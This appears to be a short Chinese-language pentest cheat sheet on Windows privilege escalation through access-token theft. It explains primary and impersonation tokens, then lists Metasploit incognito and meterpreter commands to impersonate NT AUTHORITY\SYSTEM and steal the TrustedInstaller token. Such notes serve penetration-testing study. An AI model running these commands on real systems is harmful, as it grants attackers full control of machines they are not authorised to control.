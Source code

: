 # 利用访问令牌操控提权

#### 前置知识备忘

1. Windows访问控制模型(Access Control Model)由访问令牌(Access Token)与安全描述符(Security Descriptor)组成
2. 访问令牌(Access Token)是描述进程或线程安全上下文的对象，包含进程或线程关联的用户账户标识和特权等信息
3. Windows令牌分主令牌(Primary Token)与模拟令牌(Impersonation Token)，主令牌与进程相关联，由Windows内核创建并分配给进程的默认访问令牌，每个进程都有一个主令牌，当进程的线程与安全对象交互时，系统将使用主令牌。
4. 线程可以模拟客户端，模拟是指线程在安全上下文中的执行能力
5. 当线程模拟客户端时，模拟线程同时具有主令牌与模拟令牌
6. 令牌窃取原理：通过操控访问令牌，使正在运行的进程看起来是其他进程的子进程或属于其他用户所启动的进程，使用Windows API 从指定进程中复制访问令牌，并将得到的访问令牌用于现有进程或生成新进程，达到提权的目的
7. 令牌窃取只能在特权用户上下文中才能实现，如系统管理员账户、网络服务账户和系统服务账户

#### 利用MetaSploit incongnito窃取令牌

需要管理员权限提升至SYSTEM，可以通过窃取来假冒 NT AUTHORITY\SYSTEM令牌

```
load incognito
list_tokens -u
impersonate_token "NT AUTHORITY\SYSTEM" [[窃取]]
steal_token <PID> [[从指定进程中窃取]]
```

#### 通过令牌获取TrustedInstaller权限

启动TrustedInstaller 服务

```
sc start TrustedInstaller 
```

记录TrustedInstaller .exe进程PID，在kali meterpreter中执行命令

```
steal_token <TrustedInstaller服务pid>
```

